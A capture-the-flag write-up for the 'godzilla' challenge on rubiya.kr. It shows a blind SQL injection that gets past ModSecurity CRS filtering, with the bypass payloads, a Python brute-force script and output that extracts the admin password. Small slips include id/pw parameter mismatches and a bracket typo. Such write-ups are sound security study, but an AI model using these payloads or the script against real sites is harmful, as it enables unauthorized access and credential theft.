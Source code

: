 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 35
tags: [SQLi, Blind SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/9e5437bb-3abf-4d3d-959c-7cb6faddf830)

We are provided with the SQL query:

```sql
SELECT id FROM prob_godzilla WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge also utilizes the MOD Security CRS rule-sheet. This time however, we have to perform a Blind SQL injection

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/824ef7b7-21ef-4c6e-87a0-f639b8ef83d0)

&nbsp;

## Blind SQL Injection
### Extracting the password length

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id='admin' AND length(pw)=[length] OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND length(pw)=[length] OR '' AND pw=''
```

If the length of `pw` for `id='admin'` is equal to the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '' AND pw=''
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="godzilla_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p2aj4nltfvs8lji1sdmr3c2lam'}
url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php"
password_length = 0

for x in range(0, 10):
  payload = f"-1'<@=1 OR id='admin' AND length(pw)={x} OR '"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"-1'<@=1 OR id='admin' AND substr(pw, {index}, 1)='{char}' OR '"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\godzilla_script.py

[!] Payload: ?pw=-1'<@=1 OR id='admin' AND length(pw)=8 OR '
[!] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+OR+%27
[!] Password length: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 1, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 1: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 2, 1)='1' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%271%27+OR+%27
[+] Character at index 2: 1

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 3, 1)='8' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%278%27+OR+%27
[+] Character at index 3: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 4, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 4: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 5, 1)='6' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%276%27+OR+%27
[+] Character at index 5: 6

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 6, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 6: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 7, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 7: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 8, 1)='5' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%275%27+OR+%27
[+] Character at index 8: 5

[!] Extracted password: a18a6cc5
[!] Final payload: ?pw=a18a6cc5
```

&nbsp;

If we provide the following URI parameter:

```
?pw=a18a6cc5
```

The resultant query becomes:

```sql
SELECT pw FROM prob_godzilla WHERE id='admin' AND pw='a18a6cc5'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/7c77be5f-1bc1-4055-b3ff-76d411c21382)
